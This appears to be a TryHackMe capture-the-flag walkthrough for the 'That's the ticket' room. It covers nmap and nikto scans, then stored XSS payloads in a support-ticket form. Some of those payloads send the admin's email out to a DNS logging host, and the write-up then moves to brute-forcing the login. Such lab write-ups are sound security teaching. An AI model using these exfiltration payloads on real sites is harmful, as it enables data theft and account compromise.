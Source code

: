 # Walk through: That's the ticket

![](./assets/thmpage.png)


https://tryhackme.com/room/thatstheticket


IP: 10.10.28.159

## Nmap 

```bash
nmap -p- -v 10.10.28.159
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Nikto 

```bash
nikto -h 10.10.28.159
```

```bash
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.28.159
+ Target Hostname:    10.10.28.159
+ Target Port:        80
+ Start Time:         2021-06-09 20:45:01 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-3092: /login/: This might be interesting...
+ OSVDB-3092: /register/: This might be interesting...
+ 7889 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-06-09 20:48:15 (GMT1) (194 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


## Webpage

![](./assets/main.png)

1. Click register to register up a new account 

![](./assets/register.png)

2. After logging in we see the dashboard.

![](./assets/dashboard.png)

3. Cheking the webpage we see the message box is vunerable to XSS injection

![](./assets/createticket.png)

```js
</textarea><script>alert(1)</script>
```

#Room hint from tryhackme page
```markdown
Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful!
```

## DNS time!

Using the found xss bug we can use this to make callbacks to our machine and from the hint we got earlier. 
http://10.10.10.100 This is a DNS service that logs dns calls for us. We can also use a site like this, http://pingb.in/

Knowing we can use xss lets try a call back to the dns service. 

```js
</textarea><img/src=x onerror="//8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/"/>
```

This gets the call back four times, 3 from us and once from the server (admin is looking)

![](./assets/recievedadmin.png)

Now lets try to get some data back!

I tried cookies for a while but realised we only needed the admins email (always keep in mind the scope and spec!)

New payload

```js
</textarea><script>var i = new Image(); i.src="//8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>
```

But this was not working, data was not coming back from the server.
After a little while, I decided to try a subdomain. 

```js
</textarea><script>var i = new Image(); i.src="//TEST.8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>
```

This came back! 

![](./assets/test.png)

Now we can get the admins email address, but we will have to swap a few charaters to not break the url to the dns service (escaping chars like @.')

```js
</textarea><script>
var email = document.getElementById("email").innerText;
email = email.replace("@", "8")
email = email.replace(".", "0")
document.location = "http://"+ email +".8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech"</script>
```
Press Create ticket and check the results on the service http://10.10.10.100

![](./assets/admin1.png)

We see the admin email and ours!

Now we can brute force the login page for the admins password as we have his email now.

![](./assets/flag1.png)




